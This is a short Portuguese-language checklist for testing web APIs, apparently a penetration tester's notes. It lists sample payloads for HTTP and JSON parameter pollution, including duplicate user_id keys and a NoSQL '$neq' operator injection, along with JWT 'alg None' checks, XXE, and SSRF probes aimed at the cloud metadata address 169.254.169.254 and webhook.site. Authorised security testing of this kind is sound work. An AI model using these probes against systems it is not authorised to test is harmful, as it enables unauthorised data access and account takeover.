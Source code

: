 # 1 - TOKEN STS
- Decode do token;
- Ver scope;
- Verificar alg `None`;

# 2 - Pollution 
- Versão `v2` → `v1`;
- Verb Tampering;  
```json
POST /api/trips/1 
POST /api/trips/1 
POST /api/trips 
DELETE /api/trips/1
```
- HTTP Parameter Pollution; 
```log
/api/profile?user_id=legit&user_id=victim
/api/profile?user_id=victim&user_id=legit
```
- JSON Parameter Pollution; 
```json
//INJETAR CAMPOS NO JSON,A FIM DE ALTERAR/SOBRESCREVER O DADO
{"dados" :"xyz", id : 2}
//INJETAR KEY/VALUE IGUAIS
{"id":111} 
{"id":[111]} 
{"id":{"id":-111}}
{"data" : 1009-10-10}
{"id":{"id":"''''''$%$%"}}
{"user_id":"legit","user_id":"victim"} {"user_id":"victim","user_id":"legit"}
{"username": "John"}
{"username": true}
{"username": null}
{"username": 1}
{"username": [true]}
{"username": ["John", true]}
{"username": {"$neq": "lalala"}}
```
- Wildcard  no ID;
```json
/api/users/1 → /api/users/* /api/users/% /api/users/_ /api/users/.
```
- Content-Type  `application/xml` ver o parse;
- XML ver XXE;

# 3 - SSRF

- Port Scan
- Endpoint de Cloud  169.254.169.254;
- Chamada Externa/Interna  http://webhook.site;


# 4 - Misc
- Refletir Token, Headers em msg de erro;
- Token na URL `/someAction?apiKey=abcd123456789`;
- Muitos dados sendo retornados;
- Rate limit=999999999999;
- Chamadas sem autenticação;
- SQLi;
- Checar IDOR/BOLA;




